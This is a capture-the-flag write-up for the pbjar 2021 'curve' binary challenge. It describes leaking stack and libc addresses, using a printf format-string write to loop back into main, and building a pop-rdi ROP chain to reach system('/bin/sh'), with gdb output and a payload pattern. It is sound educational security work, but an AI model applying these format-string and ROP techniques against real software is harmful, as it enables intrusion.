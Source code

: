 # Write Up

### Challenge: pbjar/2021/pwn/curve

### Initial Research
---

! first thing first

```console
❯ file curve
curve: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, \
  interpreter ./ld-2.31.so, for GNU/Linux 3.2.0, BuildID[sha1]=e8fe3eece1912689d5e47acaf76c1dca070f4ad8, \
  not stripped
```

```console
❯ pwn checksec curve
[*] '/home/whoami/ctfs/pbjar/pwn/curve/curve'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

! everything is on

! ghidra time

```c
undefined8 main(void)
{
  ...
  char local_98 [136];
  ...
  puts("Input 1:");
  read(0,local_98,0xb0);
  puts(local_98);
  ...
}
```

! obviously, read is overflowing the stack by `0xb0-136=40` bytes

! but canary says sorry

! okay, let's see what **puts** can leak from the stack

```console
(gdb) x/22gx $rbp-0x90
0x7fffffffd890: 0x0000000000000000      0x0000000000000000
0x7fffffffd8a0: 0x0000000000000000      0x0000000000000000
0x7fffffffd8b0: 0x0000000000000000      0x0000000000000000
0x7fffffffd8c0: 0x0000000000000000      0x0000000000000000
0x7fffffffd8d0: 0x0000000000f0b5ff      0x00000000000000c2
0x7fffffffd8e0: 0x00007fffffffd907      0x0000555555555325
0x7fffffffd8f0: 0x0000000000000000      0x0000000000000000
0x7fffffffd900: 0x00005555555552e0      0x00005555555550b0
0x7fffffffd910: 0x00007fffffffda10      0xd6438ff453680d00
0x7fffffffd920: 0x00005555555552e0      0x00007ffff7e2cd0a
0x7fffffffd930: 0x00007fffffffda18      0x0000000100000000
```

! we can leak only one of these -
+ a stack address
+ an address from where curve loaded
+ an address from where libc loaded if we go through canary

? what else, and only else

```c
undefined8 main(void)
{
  ...
  char local_98 [136];
  ...
  __format = (char *)malloc(0x80);
  ...
  puts("Input 2:");
  read(0,local_98,0x80);

  puts("\nInput 3:");
  read(0,__format,0x80);
  printf(__format);
  free(__format);
  return 0
}
```

? printf

! this will allow us to leak the data from the stack

! and to write the **random** locations where the data from the stack is pointed to

! or if we combine with input 2, we can write an **arbitrary** location, as it's writing into the stack

### Thought flow
---
! leak the stack address using input 1

! write the shell code and the main return address pointer into the stack using input 2

! modify the main return address on the stack with the shell code address using printf

! execution will be redirected

```diff
+ stack address can be leaked
+ main return address pointer can be calculated
+ shell code and pointer can be combined
+ still can modify the main return address with a painful printf bandwidth, as we can only write one pointer on the stack
- unfortunately stack is not executable: NX enabled
```
! we can still redirect the execution where ever we want

? any system call in the program

! not found

! wait we can't know any other address to jump if we need stack address for redirection

! stuck

! wait original return address might be useful

! oh, i can only modify a part of it

! that would allow to jump some special locations with proper alignment

! let's see what is interesting there

```console
(gdb) disas 0x00007ffff7e2cd0a
   ...
   0x00007ffff7e2cd03 <+227>:   mov    rax,QWORD PTR [rsp+0x10]
   0x00007ffff7e2cd08 <+232>:   call   rax
   0x00007ffff7e2cd0a <+234>:   mov    edi,eax
   0x00007ffff7e2cd0c <+236>:   call   0x7ffff7e44660 <exit>
   ...
(gdb) x/i $rsp+0x10
   0x555555555195 <main>:       push   rbp
```
! interesting

! if we change the least significant byte of the return address from 0x..0a to 0x..03, the main will be called again

! perfect

! now we can leak everything from the memory with printf, as the program will not end

! the payload would be like `"111%{}$hhn %{}$lx ..."`

! the first format is to modify the return address with 03 and others to leak

? now what
```diff
+ able to write to any amount of memory locations as we can loop back to mean
+ a libc address can be leaked
+ system address can be calculated
+ can redirect to system
- rdi needs to be loaded with string pointer pointed to "/{program_path}"
```

? how to call system properly without shell code

! stuck

! oh wait, `pop rdi; ret;` will do cause we have fully control of stack

! if we found that pattern on any loaded program by any chance, we can redirect to there with a crafted stack

! let's see the shell code of those instructions real quick

```console
❯ echo -e "pop rdi\nret" > pop-rdi-ret.asm
❯ nasm -f elf64 pop-rdi-ret.asm
❯ objdump -d pop-rdi-ret.o
...
0000000000000000 <.text>:
   0:   5f                      pop    %rdi
   1:   c3                      retq
```

! search for the pattern `0x5f 0xc3` in ghidra

```console
        undefined __libc_csu_init()
...
        0010133a 41  5f           POP        R15
        0010133c c3              RET
```

! it's in the `__libc_csu_init`

! we can jump to 0x..3b instead of 0x..3a

! that will pop the rdi and return

! before redirect to there, stack format should be like -

```
* rsp
| address_to_pattern | bin_sh_address | system_address |
```

```diff
+ __libc_csu_init address can be calculated from leaked address
+ /bin/sh can be written to heap
+ an address from the heap is also leaked
```

! perfect

! review [exploit.py](exploit.py) for implementation
